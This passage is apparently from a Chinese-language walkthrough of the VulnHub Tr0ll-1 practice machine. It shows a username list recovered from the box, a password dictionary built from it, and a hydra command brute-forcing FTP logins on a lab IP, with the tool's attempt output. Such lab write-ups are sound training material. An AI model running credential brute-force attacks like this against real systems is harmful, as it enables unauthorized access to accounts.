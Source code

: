 ```bash
┌──(kali㉿kali)-[~/Vulnhub/Tr0ll-1]
└─$ cat users.txt
maleus
ps-aux
felux
Eagle11
genphlux < -- Definitely not this one
usmc8892
blawrg
wytshadow
vis1t0r
overflow
genphlux
```

制作密码字典。其实就是将users.txt中加上`Good_job_:)`。

```bash
┌──(kali㉿kali)-[~/Vulnhub/Tr0ll-1]
└─$ cat Pass.txt
maleus
ps-aux
felux
Eagle11
genphlux < -- Definitely not this one
usmc8892
blawrg
wytshadow
vis1t0r
overflow
genphlux
Good_job_:)
```

### ftp

尝试对21端口进行爆破，但是用户字典中没有任何ftp登录用户。

```bash
┌──(kali㉿kali)-[~/Vulnhub/Tr0ll-1]
└─$ hydra -vV -t 6 -f -e ns -L ./users.txt -P ./Pass.txt ftp://10.0.0.130 
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-08-25 02:12:03
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 6 tasks per 1 server, overall 6 tasks, 154 login tries (l:11/p:14), ~26 tries per task
[DATA] attacking ftp://10.0.0.130:21/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[ATTEMPT] target 10.0.0.130 - login "maleus" - pass "maleus" - 1 of 154 [child 0] (0/0)
[ATTEMPT] target 10.0.0.130 - login "maleus" - pass "" - 2 of 154 [child 1] (0/0)
[ATTEMPT] target 10.0.0.130 - login "maleus" - pass "ps-aux" - 4 of 154 [child 2] (0/0)
[ATTEMPT] target 10.0.0.130 - login "maleus" - pass "felux" - 5 of 154 [child 3] (0/0)
[ATTEMPT] target 10.0.0.130 - login "maleus" - pass "Eagle11" - 6 of 154 [child 4] (0/0)
[ATTEMPT] target 10.0.0.130 - login "maleus" - pass "genphlux < -- Definitely not this one" - 7 of 154 [child 5] (0/0)
[INFO] user maleus does not exist, skipping
[INFO] user maleus does not exist, skipping
[INFO] user maleus does not exist, skipping
[INFO] user maleus does not exist, skipping
[INFO] user maleus does not exist, skipping
[INFO] user maleus does not exist, skipping
[ATTEMPT] target 10.0.0.130 - login "ps-aux" - pass "ps-aux" - 15 of 154 [child 5] (0/0)
```